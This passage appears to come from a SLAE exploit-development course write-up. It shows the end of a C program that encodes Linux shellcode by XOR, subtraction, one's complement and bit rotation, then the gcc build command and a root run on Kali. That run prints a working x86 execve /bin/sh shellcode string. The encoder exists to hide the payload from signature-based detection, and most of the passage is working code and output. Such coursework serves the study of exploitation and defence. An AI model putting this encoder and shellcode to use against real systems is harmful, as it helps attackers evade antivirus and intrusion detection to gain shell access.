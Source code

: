 ```c
}

// apply the encoding scheme
for (i=0; i < strlen(shellcode2); i++) 
{
        // XOR every byte with 0x2c
        shellcode2[i] = shellcode2[i] ^ XORVAL;
        // decrease every byte by 2
        shellcode2[i] = shellcode2[i] - DEC;
        // one's complement
        shellcode2[i] = ~shellcode2[i];
        // perform the ror method
        shellcode2[i] = (shellcode2[i] << rot) | (shellcode2[i] >> sizeof(shellcode2[i])*(8-rot));   
}

// print encoded shellcode
printf("\nEncoded shellcode\n\n");
i=0;
for (i; i < strlen(shellcode2); i++) {
       printf("0x%02x,", shellcode2[i]);
}

printf("\n\nEncoded Shellcode Length %d\n",strlen(shellcode2));
free(shellcode2);
free(buffer);
printf("\n\n");
}

```

The program above will be compiled using **gcc** as follows


<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
gcc -o encode encoder.c
</pre>

Then, running the encoder will give the following result

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment4</b></span># ./enc

Shellcode:

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
